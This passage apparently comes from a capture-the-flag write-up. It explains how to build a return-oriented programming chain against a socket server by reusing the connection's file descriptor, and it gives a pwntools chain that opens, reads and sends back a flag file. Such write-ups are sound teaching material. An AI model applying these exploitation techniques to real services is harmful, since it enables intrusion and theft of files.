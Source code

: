 To better understand why we are unable to spawn a shell using a simple `execve` ROP chain, let's analyze how the server interacts with us:
!![Screenshot_20241016_083111](../../Screenshot_20241016_083111.png)
!![Screenshot_20241016_083030](../../Screenshot_20241016_083030.png)
In calling the `read()` and `write()` functions, the binary uses the `sockfd` as the file descriptor which is returned by the `accept()` call, which is a function that returns a new `sockfd` everytime it accepts a socket connection. This means that if we ever want to print an output to our terminal on client-side, we have to use the corresponding `sockfd` for our connection when calling the `write()` function. 

Luckily for us, we can just reuse the `sockfd` used by the `write()` and `read()` function calls in the `serve()` function prior to returning to our ROP chain. Through dynamic analysis using GDB-GEF, I discovered that the RDI register which contains the value for `sockfd` is not overwritten by any preceding code. To make sure we don't lose this value during our function calls in our ROP chain, we can save this value by writing it to some address in `.bss` section or by copying it to other registers.  

All things considered, my final ROP chain looked like this:
```python
rop_chain = flat(
	XCHG_EAX_EDI,
	XCHG_EAX_EBX,

	POP_RSI, FLAG_PATH_ADDR,
	POP_RDX, FLAG_PATH_STR,
	MOV_QWORD_RSI_RDX,

	POP_RDI, FLAG_PATH_ADDR,
	POP_RSI, 0x0,
	OPEN_FUNC,

	XCHG_EAX_EDI,
	POP_RSI, FLAG_CONTENT_ADDR,
	POP_RDX, 0x40,
	READ_FUNC,

	XCHG_EAX_EBX,
	XCHG_EAX_EDI,
	POP_RSI, FLAG_CONTENT_ADDR,
	POP_RDX, 0x40,
	WRITE_FUNC,
)
```
